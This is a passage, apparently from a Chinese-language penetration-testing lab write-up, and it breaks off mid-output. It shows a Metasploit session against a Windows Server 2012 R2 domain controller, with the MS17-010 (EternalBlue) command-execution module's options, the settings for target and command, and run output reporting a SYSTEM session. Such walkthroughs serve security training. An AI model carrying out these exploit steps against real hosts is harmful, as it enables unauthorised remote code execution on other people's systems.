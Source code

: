 > 201 PC: Win7
>
> 10 DC: Win S 2012 R2



#### MS17_010

上面两台均可利用入侵，以DC为例：

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/admin/smb/ms17_010_command
msf6 auxiliary(admin/smb/ms17_010_command) > options 

Module options (auxiliary/admin/smb/ms17_010_command):

   Name                  Current Setting                     Required  Description
   ----                  ---------------                     --------  -----------
   COMMAND               net group "Domain Admins" /domain   yes       The command you want to execute on the remote host
   DBGTRACE              false                               yes       Show extra debug trace info
   LEAKATTEMPTS          99                                  yes       How many times to try to leak transaction
   NAMEDPIPE                                                 no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/da  yes       List of named pipes to check
                         ta/wordlists/named_pipes.txt
   RHOSTS                                                    yes       The target host(s), see https://github.com/rapid7/metasploit
                                                                       -framework/wiki/Using-Metasploit
   RPORT                 445                                 yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                       no        Service description to to be used on target for pretty listi
                                                                       ng
   SERVICE_DISPLAY_NAME                                      no        The service display name
   SERVICE_NAME                                              no        The service name
   SMBDomain             .                                   no        The Windows domain to use for authentication
   SMBPass                                                   no        The password for the specified username
   SMBSHARE              C$                                  yes       The name of a writeable share on the server
   SMBUser                                                   no        The username to authenticate as
   THREADS               1                                   yes       The number of concurrent threads (max one per host)
   WINPATH               WINDOWS                             yes       The name of the remote Windows directory

msf6 auxiliary(admin/smb/ms17_010_command) > set command "ipconfig"
command => ipconfig
msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 10.10.10.10
rhosts => 10.10.10.10
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 10.10.10.10:445       - Target OS: Windows Server 2012 R2 Standard 9600
[*] 10.10.10.10:445       - Built a write-what-where primitive...
[+] 10.10.10.10:445       - Overwrite complete... SYSTEM session obtained!
[+] 10.10.10.10:445       - Service start timed out, OK if running a command or non-service executable...
[*] 10.10.10.10:445       - Getting the command output...
[*] 10.10.10.10:445       - Executing cleanup...
[+] 10.10.10.10:445       - Cleanup was successful
[+] 10.10.10.10:445       - Command completed successfully!
[*] 10.10.10.10:445       - Output for "ipconfig":
```